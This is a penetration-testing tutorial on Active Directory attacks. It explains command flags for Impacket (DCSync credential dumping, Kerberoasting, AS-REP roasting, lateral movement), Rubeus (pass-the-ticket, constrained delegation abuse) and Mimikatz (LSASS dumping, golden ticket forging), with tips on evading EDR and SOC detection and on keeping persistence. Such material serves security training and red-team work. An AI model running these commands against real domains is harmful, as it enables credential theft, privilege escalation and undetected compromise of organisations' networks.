

# Active Directory Field Operator Playbook: Exhaustive Tool & Flag Dissection

> **What Makes This Unique**: Traditional courses present one-line commands without explaining what the parameters actually do on the wire, why specific flags fail in production, or how to avoid triggering EDR detections. This playbook breaks down the exact syntax, flags, network mechanics, and field troubleshooting for every major Active Directory tool.

---

## 🧭 The Tool Arsenal at a Glance



---

## 1. Impacket Suite: Line-by-Line Flag Dissection

Impacket is the definitive Python library for interacting with Windows network protocols over MSRPC, SMB, and Kerberos.

### 1.1 `secretsdump.py` (DCSync & Credential Extraction)
```bash
impacket-secretsdump -hashes :fc525c9680e4766d6f9274b9240a2512 -just-dc-ntlm -history -user-status corp.local/Administrator@192.168.1.10 -outputfile corp_dump
```

#### Detailed Flag Breakdown
* `-hashes :<NTLM_HASH>`:
  * Uses **Pass-the-Hash (PtH)** instead of a plaintext password.
  * Note the leading colon (`:`). The format is `LMHASH:NTHASH`. Since modern Windows blanks LM hashes, omitting the left side requires a colon prefix.
* `-just-dc-ntlm`:
  * **Critical OPSEC Flag**: Instructs the script to extract *only* NTLM hashes, skipping Kerberos keys (AES-128, AES-256, DES) and cleartext passwords stored via reversible encryption.
  * *Why use it*: Greatly accelerates extraction speed across domains with tens of thousands of users.
* `-just-dc`:
  * Dumps all domain secrets via MS-DRSR (DCSync) without attempting to read the local registry SAM or LSA secrets from the remote machine.
* `-just-dc-user <USERNAME>`:
  * **High-Precision Targeting**: Extracts the hash for a single targeted account (e.g. `krbtgt` or `svc_backup`) instead of dumping the entire domain.
  * *Field Benefit*: Generates only a single replication request on the DC, significantly reducing the probability of SOC detection.
* `-history`:
  * Dumps historical password hashes stored in Active Directory if password history is enforced via Group Policy. Allows cracking older passwords that users frequently reuse or increment.
* `-user-status`:
  * Appends account state metadata (`Disabled`, `Lockout`, `PasswordExpired`) next to each dumped hash, saving hours of filtering during post-engagement audits.
* `-dc-ip <IP_ADDRESS>`:
  * Explicitly specifies the IP address of the Domain Controller to avoid NetBIOS or DNS resolution failures on non-domain Linux hosts.
* `-k -no-pass`:
  * Authenticates using a Kerberos ticket cached in your Linux environment (`KRB5CCNAME`) rather than an NTLM hash or password.

---

### 1.2 `GetUserSPNs.py` (Kerberoasting)
```bash
impacket-GetUserSPNs corp.local/jdoe:Welcome2024! -dc-ip 192.168.1.10 -request -outputfile kerberoast.hashes
```

#### Detailed Flag Breakdown
* `-request`:
  * Mandatory flag to actually request the Kerberos TGS tickets from the KDC. Without this flag, the script only queries LDAP and prints a list of SPNs without extracting hashes.
* `-request-user <USERNAME>`:
  * Requests a ticket *only* for the specified service account.
  * *OPSEC Benefit*: Prevents requesting 50 service tickets simultaneously, which triggers automated behavioral alerts (Event ID 4769 burst detection).
* `-outputfile <FILENAME>`:
  * Automatically writes extracted tickets into Hashcat-ready format (`$krb5tgs$23$...`), preventing terminal encoding corruption.
* `-format hashcat` vs `-format john`:
  * Formats the output specifically for Hashcat (mode `13100`) or John the Ripper (`krb5tgs`).

---

### 1.3 `GetNPUsers.py` (AS-REP Roasting)
```bash
impacket-GetNPUsers corp.local/ -usersfile valid_users.txt -format hashcat -outputfile asrep.hashes -dc-ip 192.168.1.10
```

#### Detailed Flag Breakdown
* `-usersfile <FILE>`:
  * Supplies a list of domain usernames to query when you have **zero credentials**. The DC will respond to AS-REQ queries for existing users without requiring you to be authenticated.
* `-no-pass`:
  * Tells the tool not to prompt for an authentication password.
* `-format hashcat`:
  * Outputs in Hashcat mode `18200` format (`$krb5asrep$23$...`).

---

### 1.4 Lateral Movement: `wmiexec.py` vs `psexec.py` vs `smbexec.py`

| Tool | Underlying Protocol | Artifacts Left on Target | OPSEC Rating | When to Use |
| :--- | :--- | :--- | :--- | :--- |
| **`wmiexec.py`** | MSRPC over Port 135 + Dynamic RPC Ports | Creates process via WMI `Win32_Process.Create`; writes output to temp administrative share (`ADMIN$`). | **Medium-High** | Default choice for lateral movement; does not install Windows services. |
| **`smbexec.py`** | Native SMB over Port 445 | Creates a temporary service that executes via `cmd.exe /Q /c` and writes output to an IPC share. | **Medium** | When WMI ports (135) are firewalled between subnets. |
| **`psexec.py`** | SMB + Named Pipes | Uploads a binary service (`PSEXESVC.exe`) to `ADMIN$`, installs, and starts a Windows Service. | **Low (Noisy)** | Highly scrutinized by EDR agents; triggers Event ID 7045 (New Service Installed). Use only in lab environments. |

---

## 2. Rubeus (C# In-Memory Kerberos Tool): Complete Flag Dissection

Rubeus is executed directly in memory on Windows workstations (via Cobalt Strike, Mythic, or PowerShell reflection) to interact with Kerberos without touching disk.

### 2.1 `kerberoast` Action
```cmd
Rubeus.exe kerberoast /user:svc_sqladmin /nowrap /outfile:hashes.txt /rc4opsec
```

#### Detailed Flag Breakdown
* `/tgtdeleg`:
  * Requests a pseudo-TGT using Microsoft's GSS-API Kerberos delegation API without needing elevation. Allows Kerberoasting without administrative rights and bypasses RC4 downgrade detection.
* `/user:<SAMACCOUNTNAME>`:
  * Targets a single account to minimize network noise.
* `/spn:<SPN_NAME>`:
  * Directly requests a ticket for a specific Service Principal Name.
* `/nowrap`:
  * **Essential Formatting Flag**: Prevents base64 ticket output from wrapping across multiple lines in your console, allowing clean copy-pasting directly into Hashcat.
* `/rc4opsec`:
  * Filters the query to target only service accounts that exclusively support RC4 encryption, avoiding accounts configured for AES-256 (which takes significantly longer to crack).
* `/aes`:
  * Forces requesting AES-128 or AES-256 tickets (Hashcat mode `19600` or `19700`).

---

### 2.2 `asktgt` Action (Requesting Tickets)
```cmd
Rubeus.exe asktgt /user:Administrator /domain:corp.local /rc4:<NTLM_HASH> /ptt
```

#### Detailed Flag Breakdown
* `/rc4:<HASH>`:
  * Converts an NTLM password hash into a Kerberos TGT (Overpass-the-Hash / PtH).
* `/aes256:<KEY>`:
  * Uses the account's AES-256 key instead of NTLM, generating a legitimate encryption request that bypasses legacy encryption downgrade detections.
* `/ptt` (**Pass-the-Ticket**):
  * Injects the newly retrieved TGT directly into the current Windows logon session memory (LSA), granting immediate access without saving tickets to disk.

---

### 2.3 `s4u` Action (Constrained Delegation Abuse)
```cmd
Rubeus.exe s4u /user:svc_web /rc4:<HASH> /impersonateuser:Administrator /msdsspn:MSSQLSvc/sql.corp.local /altservice:cifs /ptt
```

#### Detailed Flag Breakdown
* `/impersonateuser:Administrator`:
  * The privileged user you wish to impersonate to the target service.
* `/msdsspn:<SPN>`:
  * The legitimate service account configured in `msDS-AllowedToDelegateTo`.
* `/altservice:<SERVICE>`:
  * **The SPN Substitution Trick**: Active Directory validates permissions against the host, not the service class. You can substitute `cifs` (file sharing) or `host` (remote management) for the configured service (e.g. `MSSQLSvc`), granting full remote access!

---

## 3. Mimikatz: Command & Module Dissection

Mimikatz operates at the lowest layers of the Windows Local Security Authority Subsystem Service (LSASS).

### 3.1 Essential Privilege Elevation
```cmd
privilege::debug
```
* **What it does**: Enables `SeDebugPrivilege` for the current process token.
* **Why it is required**: Windows restricts access to system processes. Without debug privileges, open handle calls (`OpenProcess`) to `lsass.exe` fail with `Access Denied` (error code 5).

---

### 3.2 `sekurlsa::logonpasswords`
```cmd
sekurlsa::logonpasswords
```
* **Mechanics**: Scans the memory space of `lsass.exe`, walks the Windows Security Support Provider (SSP) structures (WDigest, Kerberos, TsPkg, CredSSP, NTLM), and extracts credentials of all currently logged-on users.
* **Field Caveat**: On Windows 8.1 / Server 2012 R2 and later, plaintext password caching in WDigest is disabled by default via registry key `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential = 0`. However, NTLM hashes and Kerberos tickets remain fully extractable.

---

### 3.3 Golden Ticket Creation (`kerberos::golden`)
```cmd
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3623811015-3361044348-30300820 /krbtgt:55403063f912530867cf395d8520cf9e /id:500 /groups:512,513,518,519,520 /ptt
```

#### Detailed Flag Breakdown
* `/user:Administrator`: Username embedded inside the forged ticket.
* `/domain:corp.local`: Fully qualified domain name.
* `/sid:S-1-5-21-...`: The domain SID (excluding the trailing RID).
* `/krbtgt:<HASH>`: The master KDC password hash used to sign and encrypt the TGT.
* `/id:500`: Sets the Relative ID of the user inside the PAC (500 = Administrator).
* `/groups:512,513,518,519,520`:
  * Injects high-privilege group SIDs into the PAC:
    * `512`: Domain Admins
    * `513`: Domain Users
    * `518`: Schema Admins
    * `519`: Enterprise Admins
    * `520`: Group Policy Creator Owners
* `/startoffset:0`: Starts ticket validity immediately.
* `/endin:525600`: Sets ticket expiration lifetime in minutes (525600 = 1 year). Default Kerberos policy is 10 hours; setting a long lifetime ensures persistence.
* `/ptt`: Immediately injects the forged ticket into the local session.

---

## 4. What Other Courses NEVER Tell You: Critical Field Troubleshooting

### 4.1 Kerberos Clock Skew (`KRB_AP_ERR_SKEW`)
* **The Error**: When attempting Kerberos authentication from a Linux penetration testing machine (Kali), tools fail with:
  `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
* **The Underlying Cause**: Kerberos uses timestamps to prevent replay attacks. If your local Linux machine's clock differs from the Domain Controller by **more than 5 minutes**, the DC rejects all requests.
* **The Field Fix**:
  ```bash
  # Force sync your machine clock directly to the Domain Controller's NTP service
  sudo rdate -n <DC_IP>
  # Alternatively using ntpdate:
  sudo ntpdate <DC_IP>
  ```

---

### 4.2 Routing Kerberos Through SOCKS Proxies (Proxychains DNS Failure)
* **The Problem**: When pivoting through a compromised workstation using a SOCKS proxy (Chisel / SSH), executing `proxychains impacket-wmiexec -k -no-pass corp.local/admin@dc01.corp.local` fails with `KDC_ERR_S_PRINCIPAL_UNKNOWN`.
* **The Underlying Cause**: Kerberos tickets require strict hostname resolution matching the registered SPN. When tools query an IP address instead of an FQDN, Kerberos falls back to NTLM or fails.
* **The Field Fix**:
  1. Add the Domain Controller and target hosts directly into `/etc/hosts` on your Linux machine:
     ```
     192.168.1.10 dc01.corp.local dc01 corp.local
     192.168.1.50 sql01.corp.local sql01
     ```
  2. In `/etc/proxychains4.conf`, comment out `proxy_dns` if DNS resolution fails over the SOCKS tunnel, or ensure your local resolver routes queries to the DC.

---

### 4.3 The "Double-Hop" Problem in WinRM / PowerShell Remoting
* **The Problem**: You connect to `Server-01` via WinRM (`evil-winrm`), but when you attempt to connect from `Server-01` to `FileServer-02`, you receive `Access is Denied`.
* **The Underlying Cause**: By default, Windows prohibits secondary credential delegation to prevent credential forwarding attacks.
* **The Field Fix**:
  * Execute commands using explicit credentials or use **Overpass-the-Hash** on the first machine to generate a Kerberos ticket for the target host:
    ```powershell
    # Pass explicit credentials in PowerShell
    $sec = ConvertTo-SecureString "Password123!" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("CORP\Admin", $sec)
    Enter-PSSession -ComputerName FileServer-02 -Credential $cred
    ```
